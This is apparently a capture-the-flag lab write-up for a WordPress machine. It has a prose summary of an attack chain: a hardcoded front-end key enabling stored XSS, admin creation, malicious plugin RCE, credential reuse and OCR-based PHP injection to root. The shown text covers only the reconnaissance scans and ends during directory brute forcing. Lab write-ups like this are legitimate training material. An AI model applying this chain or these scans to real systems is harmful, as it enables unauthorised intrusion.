






## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 443/TCP](#Enumeration-of-Port-443TCP)
        - [HTTPS and WordPress Fingerprinting](#HTTPS-and-WordPress-Fingerprinting)
        - [WordPress User and Theme Enumeration](#WordPress-User-and-Theme-Enumeration)
        - [Directory and Asset Discovery](#Directory-and-Asset-Discovery)
    - [Front-End AI Model and JavaScript Enumeration](#Front-End-AI-Model-and-JavaScript-Enumeration)
- [Initial Access](#Initial-Access)
    - [Recovering the Front-End Encryption Key](#Recovering-the-Front-End-Encryption-Key)
    - [Reproducing the Voice Result Encryption Workflow](#Reproducing-the-Voice-Result-Encryption-Workflow)
    - [Stored Cross-Site Scripting (XSS) through Encrypted Voice Results](#Stored-Cross-Site-Scripting-XSS-through-Encrypted-Voice-Results)
    - [WordPress Administrator Account Creation](#WordPress-Administrator-Account-Creation)
    - [WordPress Plugin Upload to Remote Code Execution](#WordPress-Plugin-Upload-to-Remote-Code-Execution)
    - [Reverse Shell as www-data](#Reverse-Shell-as-www-data)
- [Enumeration (www-data)](#Enumeration-www-data)
    - [Local User Discovery](#Local-User-Discovery)
- [Privilege Escalation to walter](#Privilege-Escalation-to-walter)
    - [WordPress Configuration and Credential Reuse](#WordPress-Configuration-and-Credential-Reuse)
- [user.txt](#usertxt)
- [Enumeration (walter)](#Enumeration-walter)
    - [Local Privilege Context](#Local-Privilege-Context)
    - [Internal Optical Character Recognition (OCR) Service Discovery](#Internal-Optical-Character-Recognition-OCR-Service-Discovery)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Enumeration of Port 8001/TCP](#Enumeration-of-Port-8001TCP)
    - [Port Forwarding](#Port-Forwarding)
    - [Optical Character Recognition (OCR) Portal Enumeration](#Optical-Character-Recognition-OCR-Portal-Enumeration)
    - [Optical Character Recognition (OCR) Output Save Abuse](#Optical-Character-Recognition-OCR-Output-Save-Abuse)
    - [SUID Bash Privilege Escalation](#SUID-Bash-Privilege-Escalation)
- [root.txt](#roottxt)

## Summary

Initial enumeration identifies `SSH` on `22/TCP`, an HTTPS-hosted `WordPress` application on `443/TCP`, and filtered services on `80/TCP` and `8001/TCP`. The HTTPS website exposes a custom theme named `WebAgency`, enabled directory listings and JavaScript files responsible for the browser-based speech transcription and summarization workflow.

Reviewing the custom theme JavaScript shows that voice results are encrypted in the browser before being submitted to the WordPress AJAX endpoint. The same script contains the hardcoded symmetric key used for `AES-GCM`; therefore, anyone who can read the front-end JavaScript can reproduce the encryption routine and generate valid encrypted voice-result payloads. This allows arbitrary attacker-controlled content to be submitted through the legitimate AJAX workflow and stored as a voice result. When an administrator reviews that result, the stored `Cross-Site Scripting` (`XSS`) payload executes in the administrator's browser session and creates a new WordPress administrator account.

Administrative access to WordPress allows upload and activation of a malicious plugin, resulting in remote command execution as `www-data`. Enumeration of the WordPress configuration discloses credentials for the local user `walter`, and those credentials are reused for SSH access. From there, local service enumeration reveals a root-owned `Optical Character Recognition` (`OCR`) application listening only on `127.0.0.1:8001`. The `OCR` service stores recognized text into PHP files under its web root. By submitting an image containing PHP code and saving the recognized output as a `.php` file, code execution is obtained as `root`. Finally, the root execution primitive is used to set the SUID bit on `/bin/bash`, resulting in a persistent root shell.

## Reconnaissance

### Port Scanning

The initial port scan identified `SSH` on `22/TCP` and an HTTPS-hosted web application on `443/TCP`, while `80/TCP` and `8001/TCP` appeared filtered from the external network. The TLS certificate disclosed the hostname `makesense.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.26.222
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-04 21:02 CEST
Nmap scan report for 10.129.26.222
Host is up (0.034s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 27:c3:7d:10:17:3b:dc:29:cf:05:83:33:ab:28:d0:38 (ECDSA)
|_  256 a3:46:f2:d7:1f:43:41:31:35:a2:88:31:ff:2a:0b:22 (ED25519)
80/tcp   filtered http
443/tcp  open     ssl/http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Agency LLC
| ssl-cert: Subject: commonName=makesense.htb
| Not valid before: 2026-05-29T16:37:29
|_Not valid after:  2126-05-05T16:37:29
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: WordPress 7.0
|_http-trane-info: Problem with XML parsing of /evox/about
8001/tcp filtered vcom-tunnel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.96 seconds
```

The hostname from the certificate was added to `/etc/hosts` so the website could be accessed under the hostname used by the application.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
10.129.26.222   makesense.htb
```

### Enumeration of Port 443/TCP

#### HTTPS and WordPress Fingerprinting

Accessing the HTTPS service showed a WordPress-powered agency website. The `WhatWeb` fingerprint confirmed `Apache`, `WordPress`, `jQuery` and the email address exposed in the page content.

- [https://10.129.26.222/](https://10.129.26.222/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb https://10.129.26.222/                                                                                          
https://10.129.26.222/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], Email[info@webagency.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[10.129.26.222], JQuery[3.7.1], MetaGenerator[WordPress 7.0], Script[application/json,module], Title[Agency LLC], UncommonHeaders[link], WordPress[7.0]
```

The front page itself did not immediately expose authentication material, but it confirmed that the visible external surface was primarily a custom WordPress site.



#### WordPress User and Theme Enumeration

`WPScan` was used to enumerate common WordPress exposure points. The results identified enabled `XML-RPC`, a readable `readme.html`, directory listing under `wp-content/uploads`, stock themes and three valid usernames.

```shell
┌──(kali㉿kali)-[~]
└─$ wpscan --url https://10.129.26.222/ --enumerate u,t,p --disable-tls-checks
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: https://10.129.26.222/ [10.129.26.222]
[+] Started: Sat Jul  4 21:06:05 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://10.129.26.222/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://10.129.26.222/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://10.129.26.222/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://10.129.26.222/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 7.0 identified (Latest, released on 2026-05-20).
 | Found By: Meta Generator (Passive Detection)
 |  - https://10.129.26.222/, Match: 'WordPress 7.0'
 | Confirmed By: Atom Generator (Aggressive Detection)
 |  - https://10.129.26.222/?feed=atom, <generator uri="https://wordpress.org/" version="7.0">WordPress</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:38 <==========================================================================================================================================================================================================================================================================================================================================================> (400 / 400) 100.00% Time: 00:00:38
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentytwentyfive
 | Location: https://10.129.26.222/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.5 (up to date)
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: https://10.129.26.222/wp-content/themes/twentytwentyfive/readme.txt
 | [!] Directory listing is enabled
 | Style URL: https://10.129.26.222/wp-content/themes/twentytwentyfive/style.css
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://10.129.26.222/wp-content/themes/twentytwentyfive/, status: 200
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://10.129.26.222/wp-content/themes/twentytwentyfive/style.css, Match: 'Version: 1.5'

[+] twentytwentyfour
 | Location: https://10.129.26.222/wp-content/themes/twentytwentyfour/
 | Latest Version: 1.5 (up to date)
 | Last Updated: 2026-05-20T00:00:00.000Z
 | Readme: https://10.129.26.222/wp-content/themes/twentytwentyfour/readme.txt
 | [!] Directory listing is enabled
 | Style URL: https://10.129.26.222/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://10.129.26.222/wp-content/themes/twentytwentyfour/, status: 200
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://10.129.26.222/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.5'

[+] twentytwentythree
 | Location: https://10.129.26.222/wp-content/themes/twentytwentythree/
 | Latest Version: 1.6 (up to date)
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: https://10.129.26.222/wp-content/themes/twentytwentythree/readme.txt
 | [!] Directory listing is enabled
 | Style URL: https://10.129.26.222/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://10.129.26.222/wp-content/themes/twentytwentythree/, status: 200
 |
 | Version: 1.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://10.129.26.222/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.6'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <============================================================================================================================================================================================================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] walter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jake
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jul  4 21:06:53 2026
[+] Requests Done: 879
[+] Cached Requests: 14
[+] Data Sent: 233.454 KB
[+] Data Received: 37.688 MB
[+] Memory used: 359.703 MB
[+] Elapsed time: 00:00:47
```

The username enumeration gave a short list of likely valid accounts to keep in mind for later credential reuse or administrative context.

| Usernames |
| --------- |
| walter    |
| admin     |
| jake      |

A second plugin-focused scanner identified a custom theme named `WebAgency`. This was more interesting than the stock WordPress themes because custom theme code is a common source of application-specific logic and vulnerabilities.

```shell
┌──(kali㉿kali)-[~]
└─$ wpprobe scan -u https://10.129.26.222/
 __    __  ___  ___           _
/ / /\ \ \/ _ \/ _ \_ __ ___ | |__   ___
\ \/  \/ / /_)/ /_)/ '__/ _ \| '_ \ / _ \
 \  /\  / ___/ ___/| | | (_) | |_) |  __/
  \/  \/\/   \/    |_|  \___/|_.__/ \___|
                                            dev [kali]

Stealthy WordPress Plugin Scanner - By @Chocapikk

21:07:36 [WARNING] Vulnerability database not found. Run: wpprobe update-db
                                                                         
╭───────────────────────────────────────────────────────────────────────╮
│  https://10.129.26.222/ (Critical: 0 | High: 0 | Medium: 0 | Low: 0)  │
│  └── webagency (1.0)                                                  │
╰───────────────────────────────────────────────────────────────────────╯
```

#### Directory and Asset Discovery

Directory brute forcing was used to identify additional exposed paths. Most findings were standard WordPress locations, but `/scripts`, several image helper endpoints and directory listings were worth manual review.

```shell
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u https://10.129.26.222/ --insecure
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://10.129.26.222/
 🚩  In-Scope Url          │ 10.129.26.222
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      321c https://10.129.26.222/wp-content => https://10.129.26.222/wp-content/
301      GET        9l       28w      318c https://10.129.26.222/scripts => https://10.129.26.222/scripts/
301      GET        9l       28w      322c https://10.129.26.222/wp-includes => https://10.129.26.222/wp-includes/
301      GET        9l       28w      319c https://10.129.26.222/wp-admin => https://10.129.26.222/wp-admin/
200      GET      349l     1605w    34965c https://10.129.26.222/
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/class-wp-customize-setting.php
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/nav-menu-template.php
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/class-wp-text-diff-renderer-table.php
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/class-wp-http.php
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/class-wp-customize-control.php
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/media.php
200      GET        1l        1w        2c https://10.129.26.222/wp-includes/feed-atom.php
200      GET      137l      236w     1892c https://10.129.26.222/wp-includes/theme-i18n.json
301      GET        9l       28w      321c https://10.129.26.222/javascript => https://10.129.26.222/javascript/
404      GET        9l       31w      276c https://10.129.26.222/javascript/hr
404      GET        9l       31w      276c https://10.129.26.222/javascript/company
🚨 Caught ctrl+c 🚨 saving scan state to ferox-https_10_129_26_222_-1783192207.state ...
❌ Could not save ferox-https_10_129_26_222_-1783192207.state, falling back to /tmp
✅ Saved scan state to "/tmp/ferox-https_10_129_26_222_-1783192207.state"
```

`dirsearch` produced a noisier result set, but it confirmed the WordPress administrative paths, exposed static assets and a recurring family of `show_image_*` endpoints.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u https://10.129.26.222

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/https_10.129.26.222/_26-07-04_21-16-12.txt

Target: https://10.129.26.222/

[21:16:12] Starting: 
[21:16:13] 404 -   34KB - /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
[21:16:24] 200 -    1KB - /.gitignore                                       
[21:16:25] 404 -  276B  - /.gitignore/                                      
[21:16:27] 403 -  279B  - /.ht_wsr.txt                                      
[21:16:27] 403 -  279B  - /.htaccess.bak1                                   
[21:16:27] 403 -  279B  - /.htaccess.orig                                   
[21:16:27] 403 -  279B  - /.htaccess.save                                   
[21:16:27] 403 -  279B  - /.htaccess.sample
[21:16:27] 403 -  279B  - /.htaccess_extra                                  
[21:16:27] 403 -  279B  - /.htaccess_sc                                     
[21:16:27] 403 -  279B  - /.htaccess_orig
[21:16:27] 403 -  279B  - /.htaccessOLD
[21:16:27] 403 -  279B  - /.htaccessOLD2
[21:16:27] 403 -  279B  - /.htaccessBAK                                     
[21:16:27] 403 -  279B  - /.htm
[21:16:27] 403 -  279B  - /.html
[21:16:27] 403 -  279B  - /.htpasswd_test                                   
[21:16:27] 403 -  279B  - /.htpasswds                                       
[21:16:27] 403 -  279B  - /.httr-oauth
[21:16:41] 403 -  279B  - /.php                                             
[21:16:57] 200 -    8KB - /show_image_NpAdvCatPG.php?cache=false&cat=1&filename=
[21:17:29] 301 -    0B  - /adm/index.php  ->  https://10.129.26.222/adm/    
[21:17:33] 301 -    0B  - /admin.  ->  https://10.129.26.222/admin/         
[21:17:37] 301 -    0B  - /admin/index.php  ->  https://10.129.26.222/admin/
[21:17:38] 301 -    0B  - /admin/mysql2/index.php  ->  https://10.129.26.222/admin/mysql2/
[21:17:39] 301 -    0B  - /admin/phpMyAdmin/index.php  ->  https://10.129.26.222/admin/phpMyAdmin/
[21:17:39] 301 -    0B  - /admin/PMA/index.php  ->  https://10.129.26.222/admin/PMA/
[21:17:39] 301 -    0B  - /admin/phpmyadmin/index.php  ->  https://10.129.26.222/admin/phpmyadmin/
[21:17:39] 301 -    0B  - /admin/phpmyadmin2/index.php  ->  https://10.129.26.222/admin/phpmyadmin2/
[21:17:40] 301 -    0B  - /admin/mysql/index.php  ->  https://10.129.26.222/admin/mysql/
[21:17:40] 301 -    0B  - /admin/pma/index.php  ->  https://10.129.26.222/admin/pma/
[21:17:41] 301 -    0B  - /admin2/index.php  ->  https://10.129.26.222/admin2/
[21:17:47] 301 -    0B  - /admin_area/index.php  ->  https://10.129.26.222/admin_area/
[21:18:07] 301 -    0B  - /adminarea/index.php  ->  https://10.129.26.222/adminarea/
[21:18:10] 301 -    0B  - /admincp/index.php  ->  https://10.129.26.222/admincp/
[21:18:12] 301 -    0B  - /adminer/index.php  ->  https://10.129.26.222/adminer/
[21:18:18] 301 -    0B  - /administrator/index.php  ->  https://10.129.26.222/administrator/
[21:18:30] 301 -    0B  - /apc/index.php  ->  https://10.129.26.222/apc/    
[21:18:38] 301 -    0B  - /asset..  ->  https://10.129.26.222/asset/        
[21:18:42] 301 -    0B  - /axis2//axis2-web/HappyAxis.jsp  ->  https://10.129.26.222/axis2/axis2-web/HappyAxis.jsp/
[21:18:42] 301 -    0B  - /axis2-web//HappyAxis.jsp  ->  https://10.129.26.222/axis2-web/HappyAxis.jsp/
[21:18:43] 301 -    0B  - /axis//happyaxis.jsp  ->  https://10.129.26.222/axis/happyaxis.jsp/
[21:18:50] 301 -    0B  - /bb-admin/index.php  ->  https://10.129.26.222/bb-admin/
[21:18:53] 301 -    0B  - /bitrix/admin/index.php  ->  https://10.129.26.222/bitrix/admin/
[21:19:07] 301 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  https://10.129.26.222/Citrix/AccessPlatform/auth/clientscripts/cookies.js/
[21:19:08] 301 -    0B  - /claroline/phpMyAdmin/index.php  ->  https://10.129.26.222/claroline/phpMyAdmin/
[21:19:33] 301 -    0B  - /db/index.php  ->  https://10.129.26.222/db/      
[21:19:33] 301 -    0B  - /dbadmin/index.php  ->  https://10.129.26.222/dbadmin/
[21:19:50] 301 -    0B  - /engine/classes/swfupload//swfupload_f9.swf  ->  https://10.129.26.222/engine/classes/swfupload/swfupload_f9.swf/
[21:19:50] 301 -    0B  - /engine/classes/swfupload//swfupload.swf  ->  https://10.129.26.222/engine/classes/swfupload/swfupload.swf/
[21:19:54] 301 -    0B  - /etc/lib/pChart2/examples/imageMap/index.php  ->  https://10.129.26.222/etc/lib/pChart2/examples/imageMap/
[21:19:58] 301 -    0B  - /extjs/resources//charts.swf  ->  https://10.129.26.222/extjs/resources/charts.swf/
[21:20:21] 301 -    0B  - /html/js/misc/swfupload//swfupload.swf  ->  https://10.129.26.222/html/js/misc/swfupload/swfupload.swf/
[21:20:28] 301 -    0B  - /index.php  ->  https://10.129.26.222/            
[21:20:29] 301 -    0B  - /index.php::$DATA  ->  https://10.129.26.222/index.php::DATA/
[21:20:29] 301 -    0B  - /index.php/login/  ->  https://10.129.26.222/login/
[21:20:32] 301 -    0B  - /install/index.php?upgrade/  ->  https://10.129.26.222/install/?upgrade/
[21:20:34] 301 -  321B  - /javascript  ->  https://10.129.26.222/javascript/
[21:20:34] 404 -  276B  - /javascript/editors/fckeditor
[21:20:34] 404 -  276B  - /javascript/tiny_mce
[21:20:36] 301 -    0B  - /jkstatus;  ->  https://10.129.26.222/jkstatus/   
[21:20:36] 404 -   34KB - /jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo
[21:20:44] 200 -    7KB - /license.txt                                      
[21:20:52] 301 -    0B  - /login.wdm%20  ->  https://10.129.26.222/login.wdm/
[21:20:52] 301 -    0B  - /login.wdm%2e  ->  https://10.129.26.222/login.wdm/
[21:21:12] 301 -    0B  - /modelsearch/index.php  ->  https://10.129.26.222/modelsearch/
[21:21:17] 301 -    0B  - /myadmin/index.php  ->  https://10.129.26.222/myadmin/
[21:21:18] 301 -    0B  - /myadmin2/index.php  ->  https://10.129.26.222/myadmin2/
[21:21:19] 301 -    0B  - /mysql-admin/index.php  ->  https://10.129.26.222/mysql-admin/
[21:21:19] 301 -    0B  - /mysqladmin/index.php  ->  https://10.129.26.222/mysqladmin/
[21:21:20] 301 -    0B  - /mysql/index.php  ->  https://10.129.26.222/mysql/
[21:21:21] 301 -    0B  - /New%20folder%20(2)  ->  https://10.129.26.222/New%20folder%20(2/
[21:21:31] 301 -    0B  - /panel-administracion/index.php  ->  https://10.129.26.222/panel-administracion/
[21:21:37] 301 -    0B  - /phpadmin/index.php  ->  https://10.129.26.222/phpadmin/
[21:21:39] 301 -    0B  - /phpma/index.php  ->  https://10.129.26.222/phpma/
[21:21:40] 301 -    0B  - /phpmyadmin!!  ->  https://10.129.26.222/phpmyadmin/
[21:21:51] 301 -    0B  - /phpmyadmin-old/index.php  ->  https://10.129.26.222/phpmyadmin-old/
[21:21:52] 301 -    0B  - /phpmyadmin/index.php  ->  https://10.129.26.222/phpmyadmin/
[21:21:52] 301 -    0B  - /phpMyAdmin/phpMyAdmin/index.php  ->  https://10.129.26.222/phpMyAdmin/phpMyAdmin/
[21:21:52] 301 -    0B  - /phpMyAdmin.old/index.php  ->  https://10.129.26.222/phpMyAdmin.old/
[21:21:52] 301 -    0B  - /phpmyadmin/phpmyadmin/index.php  ->  https://10.129.26.222/phpmyadmin/phpmyadmin/
[21:21:52] 301 -    0B  - /phpmyadmin0/index.php  ->  https://10.129.26.222/phpmyadmin0/
